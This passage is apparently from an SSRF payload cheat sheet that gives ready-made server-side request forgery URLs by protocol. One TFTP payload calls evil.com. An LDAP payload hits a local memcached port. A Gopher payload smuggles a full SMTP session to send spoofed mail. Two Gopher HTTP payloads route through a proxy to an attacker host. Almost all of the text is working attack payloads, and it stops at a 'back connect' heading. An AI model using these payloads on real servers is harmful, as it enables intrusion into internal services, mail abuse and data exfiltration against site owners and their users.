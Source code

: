 ### **TFTP**

Trivial File Transfer Protocol, works over UDP

```
ssrf.php?url=tftp://evil.com:12346/TESTUDPPACKET
```

### **LDAP**

Lightweight Directory Access Protocol. It is an application protocol used over an IP network to manage and access the distributed directory information service.

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

### **Gopher**

It is a distributed document delivery service. It allows users to explore, search and retrieve information residing on different locations in a seamless fashion.

```
ssrf.php?url=gopher://127.0.0.1:25/xHELO%20localhost%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cvictim@site.com%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cvictime@site.com%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a

will make a request like
HELO localhost
MAIL FROM:<hacker@site.com>
RCPT TO:<victim@site.com>
DATA
From: [Hacker] <hacker@site.com>
To: <victime@site.com>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Ah Ah AH

You didn't say the magic word !


.
QUIT
```

### **Gopher HTTP**

```
gopher://<proxyserver>:8080/_GET http://<attacker:80>/x HTTP/1.1%0A%0A
gopher://<proxyserver>:8080/_POST%20http://<attacker>:80/x%20HTTP/1.1%0ACookie:%20eatme%0A%0AI+am+a+post+body
```

### **Gopher SMTP - Back connect to 1337**
